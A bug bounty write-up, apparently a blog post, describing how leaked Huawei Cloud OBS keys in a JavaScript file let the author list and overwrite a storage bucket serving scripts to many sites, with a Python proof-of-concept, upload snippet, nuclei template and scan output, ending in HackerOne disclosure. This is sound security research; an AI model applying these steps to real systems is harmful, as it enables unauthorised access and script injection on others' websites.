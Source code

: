 ```yaml
---
title: "Exposed secret keys leading to multiple site defacement for $800"
date: 2025-02-21T11:37:50+08:00
draft: false
summary: Finding secret keys in a JS file—this is like finding money in a trashcan. Yeah that's a JavaScript is trash joke.
---
```

![leaked keys](/leaked-obs-keys.jpg)
> Finding secret keys in a JS file—this is like finding money in a trashcan. Yeah that's a JavaScript is trash joke.

I found exposed secret keys in a inconspicious JavaScript file at `river.[redacted].com`, which could allow a malicious actor to deface multiple websites of a entertainment platform in the Philippines and I got $800 out of it.

---

Doing my usual poking-around after work, I found this seemingly new, but otherwise normal-looking website of my target.

I checked the website out, did my usual fuzzing and find nothing. I couldn't even tell what the website does—I couldn't get past the login screen.

I inspected the source code, opened its JS files, and checked for any API calls, and I found nothing of interest. Then I did a global text search for `_key`, just in case some lazy developer didn't bother configuring their secret keys properly.

```plaintext
var define_import_meta_env_default$1 = {
...
	VITE_OBS_BUCKET_NAME: "dl-patch-river-com",
	VITE_OBS_PATH_PREFIX: "mgames/nhk/common/events/",
	VITE_OBS_ACCESS_KEY: "ATXC1DVXV2[redacted]",
	VITE_OBS_SECRET_KEY: "EQnZvv1HfpEoT62[redacted]",
...
};
```
> _Welp, well I be damned_

Interesting. But I have no idea what these keys are for. Looking up "OBS", [Huawei Cloud OBS](https://www.huaweicloud.com/intl/en-us/product/obs.html) turns up.

## Huawei Cloud Object Storage Service

[**Huawei Cloud OBS**](https://www.huaweicloud.com/intl/en-us/product/obs.html)—is a file bucket storage service by Huawei Cloud. It's basically an alternative to Amazon S3 and Google Cloud Storage.

They also have a Python SDK `esdk-obs-python`, which should make it easier for me to write a Python exploit script.

## Testing the leaked keys

### Testing read access
I wrote a simple Python script that lists down all of the contents of the bucket:

```py
# obs.py
from obs import ObsClient


if __name__ == "__main__":
    access_key = "ATXC1D[redacted]"
    secret_key = "EQnZvv1HfpEoT6[redacted]"
    bucket = "dl-patch-[redacted]-com"
    server = "https://obs.ap-southeast-3.myhuaweicloud.com/"
    region = "ap-southeast-3"

    prefix = "mgames/nhk/common/events/"
    
    obsClient = ObsClient(
        access_key_id=access_key,
        secret_access_key=secret_key,
        server=server
    )

    objects = obsClient.listObjects(bucket)
    for obj in objects.body.contents:
        print(obj.url)
    
    obsClient.close()
```

Running the script, I was able to fetch the contents of the bucket which contains 5,000+ objects:

```plaintext
https://dl.[redacted].com/mgames/nhk/common/events/2023/
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/bootstrap-grid.css
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/bootstrap-grid.css.map
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/bootstrap-reboot.css
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/bootstrap-reboot.css.map
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/bootstrap-utilities.css
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/bootstrap-utilities.css.map
https://dl.[redacted].com/mgames/nhk/common/events/2023/fonts/
https://dl.[redacted].com/mgames/nhk/common/events/2023/fonts/AgencyFB-Black.eot
https://dl.[redacted].com/mgames/nhk/common/events/2023/fonts/AgencyFB-Black.svg
https://dl.[redacted].com/mgames/nhk/common/events/2023/fonts/AgencyFB-Black.ttf
https://dl.[redacted].com/mgames/nhk/common/events/2023/fonts/AgencyFB-Black.wof
...[redacted for brevity]...
```
> _The keys worked!_

### Testing write access
I adjusted the script to upload an HTML file to the bucket

```py
    target_file = f"{prefix}/tedminfosec.html"
    local_file = "./tedminfosec.html"
    print(f"Uploading {local_file} to {target_file}")
    obsClient.putFile(bucket, target_file, local_file)
```

And sure enough, my HTML file was uploaded to the bucket!

![html file](/leaked-obs-keys-html-file.png)

## Important observation
- I noticed that I was able to _update_ my file by running the script again. **This means I could potentially overwrite any item in the bucket.**

## Understanding the potential impact

Knowing that my target has _thousands_ of domains, I asked myself:
- _Could it be possible that this bucket serves static files for some of these websites?_
- _Is there a way for me to inject arbitrary JavaScript code into these websites?_

Analyzing the leak, a notable configuration setting is the `VITE_OBS_PATH_PREFIX`, which has the value `mgames/nhk/common/events/`.

This means I have to **identify all websites that contain `mgames/nhk/common/events/` in their source code.** To do that, I used [nuclei](https://github.com/projectdiscovery/nuclei) with a custom template.

## Writing a custom nuclei template

Nuclei is a fast, customizable vulnerability scanner but has a somewhat bad rap in the bug bounty community because a lot of researchers get dupes from it. That's simply bound to happen if everyone uses the same templates!

I think nuclei is best used for low-hanging bugs and _custom templates_ that you write yourself. Writing effective custom templates, however, requires a deep understanding of the target.

Here's my custom template to identify the websites that use the compromised storage bucket:

```yaml
id: obs-leak 
info:
  name: OBS Leak
  author: tedm.infosec
  severity: info
requests:
  - method: GET
    path:
      - "{{BaseURL}}/"
    matchers:
      - type: word
        words: 
          - "mgames/nhk/common/events/"
        part: body
```

With the list of live subdomains of `[redacted].com` in `http.txt`, I pipe it into `nuclei` like so:

```plaintext
cat http.txt | nuclei -t ~/custom-nuclei-templates/adhoc/tmp.yaml
                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v3.1.10

                projectdiscovery.io

[WRN] Found 1 templates loaded with deprecated protocol syntax, update before v3 for continued support.
[INF] Current nuclei version: v3.1.10 (outdated)
[INF] Current nuclei-templates version: v10.1.2 (latest)
[WRN] Scan results upload to cloud is disabled.
[INF] New templates added in latest release: 52
[INF] Templates loaded for current scan: 1
[WRN] Executing 1 unsigned templates. Use with caution.
[INF] Targets loaded for current scan: 6004
[obs-leak] [http] [info] https://console.df.[redacted].com/
[obs-leak] [http] [info] https://voting.df.[redacted].com/
[obs-leak] [http] [info] https://members.[redacted].com/
[obs-leak] [http] [info] https://connect.16273.[redacted].com/
...[redacted for brevity]...
```

## Running arbitrary JavaScript in one of their websites
I chose one seemingly unimportant website from the list of websites detected by `nuclei`. Then I identified the JS file hosted from the bucket, updated its code so it prints out `hello from tedminfosec` in the console:

![proof of concept](/leaked-obs-keys.PNG)
> _It works._

## Responsible disclosure
Now that I have a good proof-of-concept to show that I compromised their website, I submitted a report detailing my exploit through their HackerOne of the company. A few weeks later I receive a reply:

![reward](/leaked-obs-keys-reward.PNG?1)

## Takeaways
- Developers _always_ make mistakes, capitalize on that.
- Knowing how to write your own `nuclei` templates can be incredibly useful.
- A bit of Python can help in writing exploits.
- Mapping the attack surface of a target is crucial for successful attacks.